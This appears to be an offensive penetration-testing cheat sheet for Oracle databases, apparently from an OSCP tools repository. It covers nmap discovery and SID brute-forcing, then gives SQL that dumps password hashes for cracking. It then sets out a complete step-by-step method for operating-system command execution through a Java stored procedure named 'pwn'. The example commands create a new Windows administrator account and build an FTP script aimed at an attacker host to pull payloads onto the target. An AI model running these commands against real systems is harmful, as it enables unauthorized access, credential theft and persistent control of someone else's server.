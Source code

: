 # ORACLE Database Cheat Sheet
This module will provide us with enough information to get going with a compromised Oracle database.

## Database Discovery
Nmap can be used to discover a database running on our target system like so,

`nmap -A -p 1521 (TARGET IP ADDRESS)`

## Database Enumeration
Once discovered, we can perform some light and heavy enumeration. We must be careful not to lock out any accounts.

### NMAP NSE Scripts
Nmap can be used to brute force a SID from an Oracle service. This is essentially the Database name. I would recommend building your own oracle-sids file to use from your other service / os / etc enumeration results. Even the hostname / domain names can be added to this file.

`nmap --script oracle-sid-brute -p 1521 (TARGET IP ADDRESS)`

### OScanner
[oscanner](https://tools.kali.org/vulnerability-analysis/oscanner) is a tool that can be used to enumerate users and passwords from a database.

`root@kali:~# oscanner -s (TARGET IP ADDRESS)`

## SQL Syntax
We can issue the following commands with an interface to the database. This could be SQLPlus, or DBeaver.

### Get all Usernames and Hashed Passwords:
To concatenate the usernams and passwords with a colon to be used by John the Ripper, do:

`SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`

### Get the Database Version:
`SELECT * FROM V$VERSION`

### List all Tables Owned by DB User:
`SELECT table_name FROM user_tables;`

### Get the Current Database Name:
`SELECT NAME FROM v$database;`

## SYSTEM-Level Command Excecution
**Step 1: Add the correct permissions.** 

This PL/SQL query will take a minute or two to complete and cannot be done using __dbeaver__, it must be done with the __sqlPlus>__ client provided by __Oracle__ to avoid a serious curly brace '{','}', escaping issue with the driver used by dbeaver. This must be done as a SYSTEM-level DBA account. This is just a precautionary step to ensure that we do, in fact, have permissions to create the Java stored procedure that we will use to execute commands. In most cases, we don't have these permissions, but because we are SYSTEM-level DBA, we have permission to assign these permissions to ourself.

```
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```
If successful, it will say *PL/SQL procedure successfully completed.* If using SQLPlus, don't worry about the added numbers, that is a flaw with the terminal / shell in the garbage Oracle code for SQLPlus; it will be ignored when executed.

**Step 2: Create Java Code to Execute:**

This SQL will create a Java class called `pwn` and a method in the class called `cmd` that creates a Runtime object with the `getRuntime().exec()` methods. We will later instantiate this class with an object called `pwn_cmd` as you will see later.

```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "pwn" AS
import java.lang.*;
import java.io.*;
 
public class pwn
{
 public static void cmd (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```
If successful you will see *Java created.* This Java creates a class called "pwn" that we can instantiate objects from. Thus, we can do `object_name('C:\WINDOWS\System32\cmd.exe');` to execute commands right from the SQLPlus> shell.

**Step 3: Create a Procedure**

```
CREATE OR REPLACE PROCEDURE pwn_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'pwn.cmd (java.lang.String)';
/
```
If successful, you will see *Procedure Created*. We can then call  it as `pwn_cmd('C:\WINDOWS\System32\CMD.EXE');` as so:

**Step 4: Execute Commands (__1 COMMAND AT A TIME__):**

`exec pwn_cmd('net user trevelyn trevelyn /add');`

`exec pwn_cmd('net localgroup Administrators trevelyn /add');`

If each command is successful, you will see *PL/SQL procedure successfully completed.*. If there is a failure, start the whole process over from step 1 and make sure that the formatting is correct and that each SQL query completes successfully. If you accidentally try two commands at once, you will be disobeying the interface of the class / method of mycmd.execCommand and the server will restart your SQL session state and you will have to start over again anyways.

**CAVEAT**
Some "commands" are actually built into shells. So, `echo`, for instance, is part of MSDOS.EXE and not an actual binary on the file system. This means that you cannot simply do:

`exec pwn_cmd('echo connect x.x.x.x > C:\ftp.script');`

As the object will throw an exception stating tha the handle is invalid. To execute shell built-ins, you can call the shell directly wi the command as an argument. For instance,

`exec pwn_cmd('cmd.exe /c echo open X.X.X.X > C:\ftp.txt');`

Will spawn a new MSDOS.EXE instance, and run the `echo` built-in shell command. This is useful to know if you do not have any other means of file system access and you want to [use FTP to pull payloads from the attacker onto the target system,](https://github.com/weaknetlabs/OSCP-tools/blob/master/Post%20Exploitation/ftp.md) or to create batch files and execute them directly from the SQLPlus shell itself.
